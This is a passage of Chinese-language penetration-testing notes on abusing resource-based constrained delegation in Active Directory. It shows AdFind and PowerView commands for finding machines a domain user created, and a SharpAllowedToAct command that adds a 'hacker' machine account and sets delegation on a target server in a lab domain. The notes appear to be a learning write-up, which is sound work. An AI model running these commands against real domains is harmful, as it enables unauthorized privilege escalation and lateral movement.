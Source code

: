 2. 或者思路反过来，从已经拥有的域用户入手，查询其可以修改属性 `msDS-AllowedToActOnBehalfOfOtherIdentity` 的主机：
    ```cmd
    # 查询当前域用户的 SID
    whoami /all
    # 根据 SID 查主机
    AdFind.exe -b "DC=endlessshw2,DC=com" -f "(&(samAccountType=805306369)(mS-DS-CreatorSID=S-1-5-21-1374896991-3346529381-10343655-1109))" cn
    # 还有使用 powershell 脚本的，暂时没有验证
    powershell-import PowerView.ps1
    powerpick Get-DomainObjectAcl | ?{$_.SecurityIdentifier -match "这里填 SID"} | select objectdn,activedirectoryrights
    ```

    ![image-20240712162108247](Kerberos/image-20240712162108247.png)

3. 使用 SharpAllowedToAct 工具创建机器账户并修改委派，工具地址：

    > https://github.com/HPVCA/SharpAllowedToAct
    > C# 需要自己编译

    ```cmd
    # 不输入参数可以直接查看提示
    SharpAllowedToAct.exe -m hacker -p hacker -t Winserver12 -d endlessshw2.com
    ```

    ![image-20240712180941467](Kerberos/image-20240712180941467.png)
    其他博客通过 impacket 中的 addcomputer.py 或 PowerShell 脚本来创建机器账户，通过 impacket 中的 rbcd 来指定委派。详见：
